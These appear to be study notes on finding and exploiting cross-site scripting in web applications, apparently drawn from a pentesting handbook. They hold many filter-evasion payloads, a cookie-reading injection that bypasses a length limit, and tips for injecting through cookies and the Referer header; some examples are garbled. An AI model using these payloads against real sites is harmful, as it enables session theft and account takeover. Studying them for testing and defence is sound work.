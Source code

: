 # Attacking Users: Cross Site Scripting
- common myth: we can't own web application via XSS
-  but in the right situation, a skillfully exploited XSS vulnerability can lead directly to a complete compromise of application, 

## Varieties of XSS (Cross Site Scripting)
1. Reflected 
2. Stored
3. Dom-Based

 ## Finding and Exploiting Reflected Xss vulnerability
 - submit each 	`alphabetical` string in each entry point
 - identify all location where this string is reflected in the application's response
 - for each reflection, identify the syntactic context in which the reflected data appears
 - submit modified data tailored to the reflection's syntactic context, attempting to introduce arbitrary script into the response
 - if the reflected data is blocked or sanitized, preventing your script from executing, try to understand and circumvent the application's defensive filters

## Probing Defensive Filters
# XSS with CSS:
```css
<x style=behavior:url(#default#time2) onbegin=alert(1)>
```

### Space Following Tag Name
```jd
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/”onerror=alert(1) src=a>
<img/’onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
<script/anyjunk>alert(1)</script>
```
### Attribute Names
``<img o[%00]nerror=alert(1) src=a>``
### Attribute Delimeters
```js
<img<img<imgonerror=”alert(1)”src=a>
onerror=’alert(1)’src=a>
onerror=`alert(1)`src=a>
<img src=`a`onerror=alert(1)>
<img/onerror=”alert(1)”src=a>
```
### attribute Value
```js
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x6c;ert(1) src=a>
<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
<img onerror=a&#0108ert(1) src=a>
```
### Tag Brackets
```js
%253cimg%20onerror=alert(1)%20src=a%253e
<<script>alert(1);//<</script>
```
## Javascript Filter
```js
<script>eval(‘a\u006cert(1)’);</script>
<script>eval(‘a\x6cert(1)’);</script>
<script>eval(‘a\154ert(1)’);</script>

we use next this to exectute upper code
<script>eval(‘a\l\ert\(1\)’);</script>
```

**TIP:** if we inject into a script but can use quotation marks, because these are being escaped, we can use `String.fromCharCode` technique to construct strings without the need for delimiters

```js
<a href=”#” onclick=”var a = ‘foo’; 
foo&apos;; alert(1);//
```

### eg. bypass Length Limit
page request:
``https://wahh-app.com/account.php?page_id=244&seed=129402931&mode=normal``
and return this
```js
<input type=”hidden” name=”page_id” value=”244”>
<input type=”hidden” name=”seed” value=”129402931”>
<input type=”hidden” name=”mode” value=”normal”>
```
we exploit Xss using
```js
https://myapp.com/account.php?page_id=”><script>/*&seed=*/alert(document.cookie);/*&mode=*/</script>
```
here other variable are comment out

`window.history.pushState()` spoof/change window location

## Exploiting XSS Via Cookies
- use CSRF to assign Custom Cookie then exploit Xss if it is vulnerable
- modify request method, application may allow to use URL parameter with same name as Cookie to trigger xss

## Exploiting Xss in Referer Header
- Some applications contain reflected XSS vulnerabilities that can only be triggered via the Referer header. These are typically fairly easy to exploit using a web server controlled by the attacker. The victim is induced to request a URL on the attacker’s server that contains a suitable XSS payload for the vulnerable application. The attacker’s server returns a response that causes a request to the vulnerable URL, and the attacker’s payload is included in the Referer header that is sent with this request.

# Finding and Exploiting Stored Xss
-  probe every field that store the user data in the server 
-  also check if any Out-Of-Band channels may activate our payload
-  if application allow upload and download file, probe for that too
-  think inmaginatively about any possible means of which data we control may be stored by application and displayed to other users.
	-  eg. comment box, username, 

**TIP:** when probing for Stored Xss try to put all payload different from each other so we know , which is stored and where it is reflecting in the application

## Testing for XSS in Web Mail Applications
## Testing For Xss In Uploaded Files
## uploading Hybrid Files
